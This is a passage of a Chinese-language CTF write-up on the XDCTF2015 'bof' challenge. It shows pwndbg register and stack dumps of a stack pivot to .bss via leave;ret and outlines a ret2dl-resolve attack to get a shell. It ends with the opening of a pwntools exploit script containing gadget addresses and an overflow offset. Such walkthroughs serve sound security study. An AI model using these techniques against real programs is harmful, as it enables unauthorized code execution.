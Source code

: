 ```c
   0x804846a <register_tm_clones+10>      sar    eax, 2
```

 ret地址为leave ret的地址，将EBP的值交给ESP从而达到栈迁移 ，此时ESP已经bss段上

```
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 EAX  0x75
 EBX  0x0
 ECX  0xffe1207c ◂— 0x61616161 ('aaaa')
 EDX  0x100
 EDI  0xffe12160 —▸ 0xffe12180 ◂— 0x1
 ESI  0xf7ef7000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
 EBP  0x0
 ESP  0x804a844 ◂— 0x0
 EIP  0x8048459 (deregister_tm_clones+41) ◂— ret    
───────────────────────────────────[ DISASM ]───────────────────────────────────
   0x8048519 <vuln+46>                    add    esp, 0x10
   0x804851c <vuln+49>                    nop    
   0x804851d <vuln+50>                    leave  
   0x804851e <vuln+51>                    ret    
    ↓
   0x8048458 <deregister_tm_clones+40>    leave  
 ► 0x8048459 <deregister_tm_clones+41>    ret    <0>
```

查看一下栈的情况，已经实现了栈迁移

```cc
pwndbg> stack 30
00:0000│ esp  0x804a844 ◂— 0x0
... ↓
```

但是我们是想要让我们布置好的数据在这个**fake stack**上 

- 我们就需要先到用**read**函数向这个地方写入**ROP**链从而能实现调用。因为又**leave ret**会有一个**pop ebp**所以在布置**fake stack**的时候我首先要输入对应大小的**fake_ebp**

- 将我们要用到的**ROP**链布置到**bss**段上从而实现布置更长的**ROP**链。这样我们就知道如何去 控制我们需要的指令了

 接着我们需要做的就是通过实现**return-to-dl-resolv**实现**get shell** 

-  首先控制到PLT[0]修改我们函数的**index_offset**让其指向我们构造的**fake_reloc** 
-  控制**index_offset** 的关键是我们只需要在**PLT[0]**的下一个栈地址放上**index_offset**就行 （因为**index_offset**是在**call**函数后**Push**进栈的地址刚好在返回**PLT[0]**时的栈顶） 

我们先写一个Exploit尝试在假栈上部署一下数据

```python
from pwn import *
p = process('./bof')
elf = ELF('./bof')
gdb.attach(p)

read_plt = elf.plt['read']
write_plt = elf.plt['write']
write_got = elf.got['write']

offset = 112
ppp_ret = 0x08048619 #pop esi ; pop edi ; pop ebp ; ret
pop_ebp_ret = 0x0804861b #pop ebp ; ret
leave_ret = 0x08048458 #leave ; ret
bss_addr = 0x0804a040 # readelf -S pwn1 | grep ".bss"
stack_size = 0x800
base_stage = bss_addr + stack_size

p.recvuntil('Welcome to XDCTF2015~!\n')
payload = 'A' * offset
```